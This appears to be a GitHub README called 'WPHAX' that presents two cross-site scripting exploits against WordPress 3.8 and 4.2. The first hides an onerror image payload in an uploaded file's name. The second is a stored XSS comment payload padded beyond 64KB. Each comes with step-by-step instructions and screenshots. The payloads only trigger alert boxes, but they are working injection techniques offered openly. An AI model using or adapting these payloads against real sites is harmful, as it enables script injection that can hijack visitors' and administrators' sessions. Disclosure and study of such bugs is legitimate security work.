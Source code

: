 # WPHAX 

## **Exploit 1**
WP Version used: **3.8**

**Description:**
"Upload media" section can be hacked with **XSS**.

**Steps:**

* Go to **Upload Media** menu.

* Upload a file which is more than **20MB** with `"file<img src=x onerror=alert("hacked")>.png"` name.

![Upload Media](https://i.imgur.com/Ad0wZIt.png)

* DONE
![XSS](https://i.imgur.com/aRp2L62.png)


## **Exploit 2**
WP Version used: **4.2**

**Description:**
Stored **XSS** can be executed with malicious comment.

**Steps:**

* Leave a comment (with a string bigger than 64KB): `<a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AA... AA'></a>`

![Leave the comment](https://i.imgur.com/VVD3ZqO.png)

* View the comment on the page
![View as admin](https://i.imgur.com/wwVBiiG.png)

* Done
![View as admin](https://i.imgur.com/0HTXTUk.png)
